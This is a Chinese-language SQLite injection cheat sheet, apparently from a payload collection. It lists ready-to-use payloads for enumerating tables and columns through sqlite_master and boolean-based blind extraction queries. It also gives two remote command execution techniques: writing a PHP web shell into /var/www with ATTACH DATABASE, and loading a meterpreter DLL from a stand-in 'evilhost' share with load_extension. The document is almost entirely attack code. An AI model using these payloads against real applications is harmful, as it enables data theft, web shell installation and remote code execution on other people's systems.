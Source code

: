 # SQLite 注入


## 以整数/字符串 为基础的 - 提取表名
```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
Use limit X+1 offset X, to extract all tables.

## 以整数/字符串 为基础的 - 提取列名
```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

为了一个整洁的输出
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## 布尔 - 计算表的数量
```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## 布尔 - 列举表名
```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## 布尔 - 提取信息
```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## 远程命令执行 使用 SQLite 命令 - Attach Database（附加数据库）
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES (‘<?system($_GET[‘cmd’]); ?>’);--
```

## 远程命令执行 使用 SQLite 命令 - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
注释: 默认情况下该部分是无效的
## 感谢
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)
